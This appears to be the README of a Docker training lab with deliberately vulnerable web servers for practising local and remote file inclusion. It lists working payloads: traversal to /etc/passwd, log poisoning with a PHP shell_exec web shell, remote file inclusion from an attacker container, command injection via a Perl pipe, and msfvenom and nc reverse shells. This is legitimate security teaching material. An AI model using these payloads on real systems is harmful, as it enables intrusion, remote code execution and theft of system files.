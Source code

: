 # Installation

- Install Docker (verified with version 2.0.0.3)
- To run the linux network use `start_linux_network.sh` (see OS subsections if something is missing).
- The windows network examples were only checked on non-windows machines. For further instructions see the ASPX section.

## Ubuntu

Check if you have docker-machine and docker-compose also installed. 
Notice that if not added to docker group, docker has to be run with sudo.

## Windows

To run the linux network [Cmder](https://cmder.net/) was used on Windows. Instead of `start_linux_network.sh` run `docker-compose -f lfi_linux_network.yml up --build` to start. 

# Examples

Note, the reverse shell examples are verified with [Metasploit Version 5.0.37-dev](https://www.metasploit.com/) on [Kali Linux](https://www.kali.org/).

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 

PoCs RFI:

- [http://127.0.0.1:8883/lfi.php?language=http://google.com?q=](http://127.0.0.1:8883/lfi.php?language=http://google.com?q=)

- [http://127.0.0.1:8883/lfi.php?page=http://textfiles.com](http://127.0.0.1:8883/lfi.php?page=http://textfiles.com)

Code running on the victim server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt)

Code running on the attacker server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php)

To get reverse shell you can use Metasploit:

`msfvenom -a php --platform php -p php/reverse_perl lhost=172.18.0.5 lport=4444`

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

- [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check) or
- [http://127.0.0.1:8883/lfi.php?language=uploads/check](http://127.0.0.1:8883/lfi.php?language=uploads/check)

#### Exploits

#### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

#### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

#### Shell

- Upload shell.php
- goto: [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)
- then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### RFI

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)

### LFI

Upload runme.jsp from attacker_server_jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

## CGI / Perl

Single Container: Start it in the folder `victim_fi_server_cgi_perl`.

### RFI

[http://127.0.0.1:8895/cgi-bin/index.pl?file=https://www.google.de](http://127.0.0.1:8895/cgi-bin/index.pl?file=https://www.google.de)

### LFI

- /etc/passwd
[http://127.0.0.1:8895/cgi-bin/index.pl?file=/etc/passwd](http://127.0.0.1:8895/cgi-bin/index.pl?file=/etc/passwd)

- Outputs the current server folder:
[http://127.0.0.1:8895/cgi-bin/index.pl?file=ls|](http://127.0.0.1:8895/cgi-bin/index.pl?file=ls|)

## Rails

Another single container: To Start goto `victim_fi_server_rails` folder.

### LFI

`curl -X GET -H 'Accept: ../../../../../../../etc/passwd{{' http://localhost:8896/fileinclusion`

## ASP / Razor

Only verified on non-Windows machines. If you want to use this network also install [VirtualBox](https://www.virtualbox.org/).

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get the docker environment.

Then you can start a windows ASPX Razor network with a victim machine (use `start_win_network.sh` or `docker-compose -f lfi_win_network.yml up --build`). After that you can verify the following payloads:

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

